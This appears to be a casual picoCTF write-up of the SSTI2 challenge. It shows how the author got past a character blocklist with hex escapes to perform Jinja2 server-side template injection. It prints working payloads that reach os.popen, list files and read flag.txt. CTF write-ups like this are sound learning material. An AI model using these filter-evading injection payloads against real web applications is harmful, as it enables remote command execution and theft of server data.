








## pico ctf!!

<br>
happy winter,Today we doing the SSTI2.<br>

<br>
That look like same with the SSTI1.<br>

<br>
It's our old friend Jinjia<br>

let's try input the command was using before.<br>
[SSTI1](../10-17-19/README.md)<br>

<br>
emm, don't work<br>
I try with some text, And i see some things.<br>

<br>
block [] <br>

<br>
block _ <br>


<br>
block . <br>

We need the underline and dot, but we can't use.<br>
I think about this question so long.<br> 
and I realize a import part, that is the latter are use unicode 8 to save. so why don't we try it.<br>
<br>
found the underline, we need the \ ,because that was how we use the latter in the jinjia.<br>
```
{{'\x5f'}}
```
we don't need the 0.

<br>
It's works!


```
{{self('\x2e')('\x5ftemplatereference\x5f\x5f')('context')('\x2e')('cycler')('\x2e')('\x5f\x5finit\x5f\x5f')('\x2e')('\x5f\x5fglobals\x5f\x5f')('\x2e')('os')('\x2e')('popen')('ls')('\x2e')('read')()}}
```

<br>

<br>

I try two times, But does't work , one with string, other with no string.<br>
we have to use other way the get the file.<br>

<br>
and I saw this, It's easy understand , but I not really understand the grammer.<br>

<br>
and this webside is really helpful.

[link](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)<br>

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

new version<br>

<br>
I see the flag let's do a little change<br>

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag.txt')|attr('read')()}}
```

<br>
let's gooo, I did spent a lot time on this but when I solve it I feel really good.


